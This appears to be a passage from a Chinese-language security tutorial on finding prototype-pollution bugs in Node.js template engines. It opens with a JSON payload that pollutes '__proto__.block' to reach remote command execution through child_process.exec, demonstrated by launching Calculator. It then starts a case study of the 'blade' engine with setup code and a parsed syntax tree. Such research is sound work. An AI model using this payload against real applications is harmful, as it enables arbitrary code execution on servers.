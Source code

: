 ```bash
{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
            "line":"process.mainModule.require('child_process').exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')" // 可以执行任意命令
        }
}
```

接下来实际分析一个模版引擎的漏洞挖掘案例：

## blade 漏洞挖掘实例

除去上文介绍的三种模版引擎，`blade` 也是常用的一种，安装方法

```bash
npm install blade
```

编写一个示例：

```bash
const blade = require('blade');

const template = `html
    head
        title Blade
    body
        #nav
            ul
                - for(var i in nav)
                    li
                        a(href=nav[i])= i
        #content.center
            h1 Blade is cool`;
blade.compile(template, {'debug': true}, function(err, tmpl) {
    console.log(err);
});
```

正常得到的语法树为：

```bash
{
  doctypes: [],
  nodes: [
    {
      type: 'tag',
      name: 'html',
      id: null,
      classes: [],
      attributes: {},
      children: [
        {
          type: 'tag',
          name: 'head',
          id: null,
          classes: [],
          attributes: {},
          children: [
            {
              type: 'tag',
              name: 'title',
              id: null,
              classes: [],
```